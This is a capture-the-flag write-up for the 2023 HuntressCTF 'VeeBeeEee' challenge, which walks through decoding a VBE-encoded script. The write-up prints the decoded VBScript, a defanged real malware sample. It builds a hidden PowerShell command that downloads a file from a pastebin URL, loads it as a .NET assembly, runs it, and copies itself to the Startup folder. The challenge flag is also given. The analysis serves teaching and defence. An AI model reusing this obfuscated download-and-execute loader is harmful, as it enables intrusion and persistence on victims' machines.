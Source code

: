 ```yaml
---
title: 2023 HuntressCTF - VeeBeeEee
date: 2023-11-01T07:00:00-07:00
tags:
  - wscript
  - vbs
  - malware
image: /2023-HuntressCTF/veebeeeee.png
---
```


### Summary
```
Author: @JohnHammond

While investigating a host, we found this strange file attached to a scheduled task. It was invoked with wscript or something... can you find a flag?

NOTE, this challenge is based off of a real malware sample. We have done our best to "defang" the code, but out of abudance of caution it is strongly encouraged you only analyze this inside of a virtual environment separate from any production devices.

```

### Steps

I started this challenge in my linux VM.  After downloading the file ```veebeeEee``` and I executed ```file veebeeEee``` and received this response:
```bash
veebeeEee: data
```
Unsure at this point I used cat to look at the file contents and here is what I found:
```bash
#@~^fhAAAA==jY~}4N+mDP,xPq?^DbwO ;D+mO+}4L^O`rUm.k2Oc?4+^sJ*PvvEBBvvEBvBEvEBvmV2GXkWGwsBCV2GzdK+Wah@&U+Y,j64N+1Y~'~/M+CY64N+^OvJ?4n^V ba2^k^mYbWxr#EvBEBvBEBvvEBBEvl^&GHdG+KwsBCVf{H/G+K2:@&?nO,sr8%mOP{~;DnmYr4N+1O`r?^DbwOr	oRwrV?XkOn:}4N+^YEbEBvBEvBEBvvEBBvvmVfGHdK+Ga:ElV2GHdWW2:@&?KCDtP,~',?1.rwDRUm.k2OwEsVgC:BvvEBBvvEBvBEvEBC^&FX/K+K2:Els&FXdGWws@&fb:P;G[+EBEBvBvvEBvBEvBElsfFX/GnKwhBms2GzkWWws@&EvBEBvBEBvvEBBEvl^&GHdG+KwsBCVf{H/G+K2:@&nGAD!~x,JKWrvEBvEBEBBEBEvBEBCV2GzdK+WahBmV&FzdWWa:@&nGADqP{~JS+EvEBBvvEBvBEvEBvEl^&GH/KnWa:vl^&{zkW+K2:@&nWSn. ,',J.?EvEBvBEvBEBvvEBBvC^&{XkGW2sBmV&FXkG+Kwh@&hWAnM&P{~J4+J@&KGhDWPxPEs^JvBEvBEBvvEBBvvEBCV2{H/GWa:BmV2{XkWnWa:@&KKh+MXP{PJ,EvBEBEBvBvvEBvBEvl^&{zkW+G2sBCV2{H/GWa:@&hWSnD,'~nKhn.ZP_,KWS+D8~QPhWS+. ~Q,nGh.&,_~KKh+.*,_~nKADXEBEBBEBEvBEBvBEBCs2GXkG+Kw:ECs&FXkWnW2h@&BvBEvBEBvvEBBvvEls&FzkWnKwsBl^&Fz/K+Gws@&KCDt!,xPr[^LW'[{[E['Z'EEBvBEvBEBvvEBBvvmVfGHdK+Ga:ElV2GHdWW2:@&nCO4FP{~JL)[''i[k[['DdE,BvBEvBEBvvEBBvvEls&FzkWnKwsBl^&Fz/K+Gws@&KCDt ,xPr[-h''EL4LV'k''1[EBEvBEBvvEBBvvEBvl^fFXdK+Kw:El^fGH/G+Kwh@&hlY4fP{PJ'9'[K[1[;[hnrPvBEvBEBvvEBBvvEBCV2{H/GWa:BmV2{XkWnWa:@&KmYtW~',JxLOd['[L9'E'sHJvBEvBEBvvEBBvvEBCV2{H/GWa:BmV2{XkWnWa:@&KmYtl~',J[c4'YL[s[viEvEBvBEvBEBvvEBBvC^&{XkGW2sBmV&FXkG+Kwh@&hlO4,PP{~nmYtZ~QPhlDtqPQ~hlOty~_,nCO4&PQ~hlOtW~3PKmY4*BEBEvBEBvBEBvvEBl^fGH/WG2:El^&{XdGW2:@&vBEBvvEBBvvEBvBEC^&{H/K+Wa:ECV2Gz/K+G2sBBEvBEBBEvvBEBEBCVf{H/G+K2:ElsfFX/GnKwh@&"n$+dD!,'Pr[b'[6P'`L"cPL+[kO[ n[mO4PL^L0b[b`L[([	'\LW'V[O'	L+8[L]L+5LEL[+L/LOPEJvBEBvvEBBEvBEBBECs&FXkWnW2hEls&Fz/K+G2s@&In5/OF,x,J'4[D[YLwLd[=[&[J[2'm[/LOJEBBEvvBEBEBvBvvEls&Fz/K+G2sBlsfFXdWGa:@&"+$+/D ,xPr[n[([r'	[RL^[K[:L&'DLlLhEBvvEBvBEvBEBvvEBlsfFXdWGa:vmV2GXkWGws@&]+$+dO2P',E[J[?Lr'5LMLh'h'^Ly'JEvBEBvvEBBvvEBvBms2GzkWWwsBms&FXdWW2h@&I+$n/DcP{~EBLPLOG[;'rBvBEvBEBvvEBBvvEls&FzkWnKwsBl^&Fz/K+Gws@&]n$+/DXP{PJD'W[b[^+~[yWLP~[)IJEBvvEBBvvEBvBEvEls2GH/WWahBmVfGH/GnKw:@&]+$+/D~xP"+$+dYT~3P]+$n/DF~Q,I+5nkY+P3~,In$+kY&,_,]+$+dYWPQ~"+;dYlBBEvvBEBEBvBvvEBCV2{XkWnGa:BCs2Gz/KnKwh@&nmYtUYMrxTPxPUr8%mYcHls+?aC^+vG*Rj+sWcnCY4~[,J&E,[P	j1DrwD Um.bwD1ls+EvBEBvBEBvvEBBEvl^&GHdG+KwsBCVf{H/G+K2:@&qU-K3+]n$+dYZ~{PEL$L?[H[k'YL+':LREvEBBEvBEBBEvvBEBmVfGzdK+Gwsvl^&{zkW+G2s@&(x7G0+];/Y8P{~JLI'+L0'sL+[1'YLk[rvvBEBEBvBvvEBvBECV2GzdK+W2hEls&FzkWnKws@&q	\KV+"+5+kY+~{PJK'xLR[z'd[k[[h[8'^JvBEvBEBvvEBBvvEBCV2{H/GWa:BmV2{XkWnWa:@&(	\W0nI;+kOfP{Pr[z[D'=[l[^'WLl'[L0J~vEBvBEvEBvEBEBBEl^fGH/G+KwhvmV&Fz/K+Wah@&q	\K3nIn5/Oc,xPr[r'^[+c'f[EBEvEBvEBEBBEBEvBmVfGH/GnKw:ECV2GXkGnWa:@&qU\GVIn;dYlPx~r0[b'p[EBEvEBvEBEBBEBEvBmVfGH/GnKw:ECV2GXkGnWa:@&qU\GVIn;dY,'~(	\WVn"+5+kOZPQ,q	\W0+"n;/OF,_~(	\W0nI;+kO+P3P&x-WVn"+5+kO&,_~(	\WVn"+5+kOWPQ,q	\W0+"n;/O*EBvvEBBEvBEBBEvvl^&FXdWnGa:vl^fGH/GnKw:@&vEBvBEvEBvEBEBBEl^fGH/G+KwhvmV&Fz/K+Wah@&2X+1bd/nhZPxPr'$L'GLD[VEEBvBEvEBvEBEBBEBms&FXdWW2hElV2{XkW+K2h@&A6m)/dnsF~',E[z[.'[l' rBvBEvEBvEBEBBEBECV2Gz/K+G2sBl^fGH/WG2:@&2X+^bdd:+P{~JL'GL[D'VrBvBEvEBvEBEBBEBECV2Gz/K+G2sBl^fGH/WG2:@&2X+^bdd:fP{~JY[l'rBBvvEBvBEvEBvEBElV2GHdWW2:ElsfFX/KnWa:@&Aanmz/k+hc~x,Jl[A'6LJ~vEBBvvEBvBEvEBvEl^&GH/KnWa:vl^&{zkW+K2:@&26^)/k+s*~'~E`'#LEBEBvvEBBvvEBvBEvmVfFXkW+Kwsvl^&{XkWnGa:@&Aa+1b/knhP,P{P36n^z/d+sTP3P3ambdd:qP3~A6n1bk/+s ,QPA6nmz/dns&P3~2X+mzdd+sc,_~2an1bd/h*EBvvEBBvvEBvBEvEls2GH/WWahBmVfGH/GnKw:@&vBEBBEvvBEBEBvBvC^&{XkG+KwhvmV&{zkWnWah@&ZG^VmY:tUIwsl1+~KKh+M~~,nlD4~~,I;n/O~BP(x7G3In5/Y~S,2a+1)k/ns@&EBBEBEvBEBvBEBvvmV&Fz/K+Wahvl^&FXdWnGa:@&@&U;4,ZGs^+mOP4+UI2^l^`wkDkYB~?mGx9PS~:tkM[PBPsK;.Y4PBPokWO4#vBEvBEBvvEBBvvEBCV2{H/GWa:BmV2{XkWnWa:@&P:w,xPwkDkO~_,?mGx[~3PPtb.N,_~oKEDO4,_~sbWDtvEBEBBEBEvBEBvBElsfFX/KnWa:BmsfGH/K+Gwh@&;W[+,xP"+2smm+cP:2PB~r[E,~,JJ,#EvBEBvBEBvvEBBEvl^&GHdG+KwsBCVf{H/G+K2:@&2U[,?E8vEBvBEvEBvEBEBBEl^fGH/G+KwhvmV&Fz/K+Wah@&BEBEBvBvvEBvBEvBmVf{H/WnGa:vl^fFXdK+Kw:@&IOEMx~',r8%mYc]E	`ZK[n~,!BPOD;n*BvBEvBEBvvEBBvvEls&FzkWnKwsBl^&Fz/K+Gws@&vvEBBEvBEBBEvvBEl^&{XdGW2:ECV2GzdK+W2h@&jmMraY UV+wv*ZT!Z#vBEBvvEBBEvBEBBECs&FXkWnW2hEls&Fz/K+G2s@&sG.,k~',q,KG,*EBBEBEvBEBvBEBvvmV&Fz/K+Wahvl^&FXdWnGa:@&k6~k,'~X,KtnUEBvBEvEBvEBEBBEBms&FXdWW2hElV2{XkW+K2h@&hlkYn`jKmY4#@&3x9PrWEBBvvEBvBEvEBvEBmV&FXkG+KwhBmVf{H/WGws@&1aOBEBEBvBvvEBvBEvBmVf{H/WnGa:vl^fFXdK+Kw:@&?!8PhldY`]P*@&s}8LmYc/GwHsbVnP]PBnCY4jYMkUL@&2x[~UE8yLIEAA==^#~@%
```

Looking back at the challenge description, I see that may have been executed by wscript.  Looking at [Microsoft](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/wscript) I see that wscript can execute .wsf, .vbs, and .js files.  The text looks heavly obfuscated, so I started to research for .wsf, .vbs and .js deobfuscation tools, and I discovered [vbe-decoder](https://github.com/JohnHammond/vbe-decoder) by John Hammond, so I knew this was the right path.  Using John's script, I executed ```python3 ./vbe-decoder.py veebeeEee > veebeeeee.vbs``` and received the following deobfuscated text.
```vbs
Set Object  = WScript.CreateObject("WScript.Shell") ''''''''''''''''al37ysoeopm'al37ysoeopm
Set SObject = CreateObject("Shell.Application")''''''''''''''''al37ysoeopm'al37ysoeopm
Set FObject = CreateObject("Scripting.FileSystemObject")''''''''''''''''al37ysoeopm'al37ysoeopm
SPath   = WScript.ScriptFullName''''''''''''''''al37ysoeopm'al37ysoeopm
Dim Code''''''''''''''''al37ysoeopm'al37ysoeopm
''''''''''''''''al37ysoeopm'al37ysoeopm
Power0 = "Po"''''''''''''''''al37ysoeopm'al37ysoeopm
Power1 = "we"''''''''''''''''al37ysoeopm'al37ysoeopm
Power2 = "rS"''''''''''''''''al37ysoeopm'al37ysoeopm
Power3 = "he"
Power4 = "ll"''''''''''''''''al37ysoeopm'al37ysoeopm
Power5 = " "''''''''''''''''al37ysoeopm'al37ysoeopm
Power = Power0 + Power1 + Power2 + Power3 + Power4 + Power5''''''''''''''''al37ysoeopm'al37ysoeopm
''''''''''''''''al37ysoeopm'al37ysoeopm
Path0 = "&$&f&&=&'&&C&"''''''''''''''''al37ysoeopm'al37ysoeopm
Path1 = "&:&\&U&s&e&&rs" ''''''''''''''''al37ysoeopm'al37ysoeopm
Path2 = "&\P&&u&b&l&i&&c&"''''''''''''''''al37ysoeopm'al37ysoeopm
Path3 = "\D&&o&c&u&me" ''''''''''''''''al37ysoeopm'al37ysoeopm
Path4 = "n&ts&\&&J&u&ly"''''''''''''''''al37ysoeopm'al37ysoeopm
Path5 = "&.h&t&&m&';"''''''''''''''''al37ysoeopm'al37ysoeopm
Path   = Path0 + Path1 + Path2 + Path3 + Path4 + Path5''''''''''''''''al37ysoeopm'al37ysoeopm
''''''''''''''''al37ysoeopm'al37ysoeopm''''''''''''''''al37ysoeopm'al37ysoeopm
Reqest0 = "&i&&f &(&!(T&e&st&-P&ath &$&f)&){&&I&n&v&o&ke&-&W&eb&&R&eq&u&&e&s&t '"''''''''''''''''al37ysoeopm'al37ysoeopm
Reqest1 = "&h&t&t&p&s&:&/&/&p&a&s&t"''''''''''''''''al37ysoeopm'al37ysoeopm
Reqest2 = "&e&b&i&n&.&c&o&m&/&r&a&w"''''''''''''''''al37ysoeopm'al37ysoeopm
Reqest3 = "&/&S&i&Y&G&w&w&c&z&"''''''''''''''''al37ysoeopm'al37ysoeopm
Reqest4 = "'& &-o&u&"''''''''''''''''al37ysoeopm'al37ysoeopm
Reqest5 = "t&f&i&le &$f&  &};"''''''''''''''''al37ysoeopm'al37ysoeopm
Reqest = Reqest0 + Reqest1 + Reqest2 +  Reqest3 + Reqest4 + Reqest5''''''''''''''''al37ysoeopm'al37ysoeopm
PathString = SObject.NameSpace(7).Self.Path & "/" & WScript.ScriptName''''''''''''''''al37ysoeopm'al37ysoeopm
InvokeReqest0 = "&[&S&y&s&t&e&m&."''''''''''''''''al37ysoeopm'al37ysoeopm
InvokeReqest1 = "&R&e&f&l&e&c&t&i&"''''''''''''''''al37ysoeopm'al37ysoeopm
InvokeReqest2 = "o&n&.&A&s&s&e&m&b&l"''''''''''''''''al37ysoeopm'al37ysoeopm
InvokeReqest3 = "&y&]&:&:&l&o&a&d&f" ''''''''''''''''al37ysoeopm'al37ysoeopm
InvokeReqest4 = "&i&l&e(&$&"''''''''''''''''al37ysoeopm'al37ysoeopm
InvokeReqest5 = "f&)&;&"''''''''''''''''al37ysoeopm'al37ysoeopm
InvokeReqest = InvokeReqest0 + InvokeReqest1 + InvokeReqest2 + InvokeReqest3 + InvokeReqest4 + InvokeReqest5''''''''''''''''al37ysoeopm'al37ysoeopm
''''''''''''''''al37ysoeopm'al37ysoeopm
ExecAssem0 = "&[&W&o&r&k"''''''''''''''''al37ysoeopm'al37ysoeopm
ExecAssem1 = "&A&r&e&a&."''''''''''''''''al37ysoeopm'al37ysoeopm
ExecAssem2 = "&W&o&&r&k"''''''''''''''''al37ysoeopm'al37ysoeopm
ExecAssem3 = "]&:&"''''''''''''''''al37ysoeopm'al37ysoeopm
ExecAssem4 = ":&E&x&" ''''''''''''''''al37ysoeopm'al37ysoeopm
ExecAssem5 = "e(&)&"''''''''''''''''al37ysoeopm'al37ysoeopm
ExecAssem   = ExecAssem0 + ExecAssem1 + ExecAssem2 + ExecAssem3 + ExecAssem4 + ExecAssem5''''''''''''''''al37ysoeopm'al37ysoeopm
''''''''''''''''al37ysoeopm'al37ysoeopm
CollectThenReplace Power , Path , Reqest , InvokeReqest , ExecAssem
''''''''''''''''al37ysoeopm'al37ysoeopm

Sub CollectThenReplace(First, Second , Third , Fourth , Fifth)''''''''''''''''al37ysoeopm'al37ysoeopm
Temp = First + Second + Third + Fourth + Fifth''''''''''''''''al37ysoeopm'al37ysoeopm
Code = Replace(Temp , "&" , "" )''''''''''''''''al37ysoeopm'al37ysoeopm
End Sub''''''''''''''''al37ysoeopm'al37ysoeopm
''''''''''''''''al37ysoeopm'al37ysoeopm
Return = Object.Run(Code, 0, true)''''''''''''''''al37ysoeopm'al37ysoeopm
''''''''''''''''al37ysoeopm'al37ysoeopm
WScript.Sleep(50000)''''''''''''''''al37ysoeopm'al37ysoeopm
For i = 1 To 5''''''''''''''''al37ysoeopm'al37ysoeopm
if i = 5 Then''''''''''''''''al37ysoeopm'al37ysoeopm
Paste(SPath)
End if''''''''''''''''al37ysoeopm'al37ysoeopm
Next''''''''''''''''al37ysoeopm'al37ysoeopm
Sub Paste(RT)
FObject.CopyFile RT,PathString
End Sub%  
```

At this point, I moved over to a Windows virtual machine and pasted the script into Notepad+++ and used syntax highlight for Visual Basic to help read the file better.
![](/2023-HuntressCTF/notepadplusplus.png)

Looking at the code, I see the Power* variables are calling PowerShell.

![](/2023-HuntressCTF/powershell.png)

I also noticed this script has some comments that don't appear to be related, for the sake of readability, I removed all occurances of ```''''''''''''''''al37ysoeopm'al37ysoeopm```

Continuing to manually deobfuscate the code, I wanted to see the full path for the Reqest variable.  I created a request0.vbs script with the following code.  Here the goal is use wscript.echo to print out the Reqest variable.
```vbs
Reqest0 = "if (!(Test-Path $f)){Invoke-WebRequest '"
Reqest1 = "https://past"
Reqest2 = "ebin.com/raw"
Reqest3 = "/SiYGwwcz"
Reqest4 = "' -ou"
Reqest5 = "tfile $f  };"
Reqest = Reqest0 + Reqest1 + Reqest2 +  Reqest3 + Reqest4 + Reqest5

wscript.echo Reqest
```

Using the Windows VM I executed request0.vbs and I received a popup box with the full URL.  

![](/2023-HuntressCTF/wscriptecho.png)

Investigating the Pastebin URL I discoverd the flag.
![](/2023-HuntressCTF/veebeeeeflag.png)

flag: ```flag{ed81d24958127a2adccfb343012cebff}```
